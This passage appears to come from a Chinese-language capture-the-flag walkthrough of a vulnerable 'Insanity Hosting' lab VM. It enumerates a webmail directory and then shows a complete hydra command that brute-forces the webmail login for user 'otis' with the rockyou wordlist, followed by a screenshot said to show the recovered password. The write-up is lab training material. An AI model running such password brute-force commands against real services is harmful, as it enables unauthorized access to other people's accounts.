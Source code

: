 查看`/data`目录，找到一个版本：`1.14.0`

![image-20220906203620868](../../.gitbook/assets/image-20220906203620868.png)

查看`/webmail`目录

![image-20220906203709488](../../.gitbook/assets/image-20220906203709488.png)

对登录界面进行暴力破解

```
hydra -l otis -P /usr/share/wordlists/rockyou.txt "http-post-form://www.insanityhosting.vm/webmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect."
```

获得登录密码

![image-20220906204257009](../../.gitbook/assets/image-20220906204257009.png)
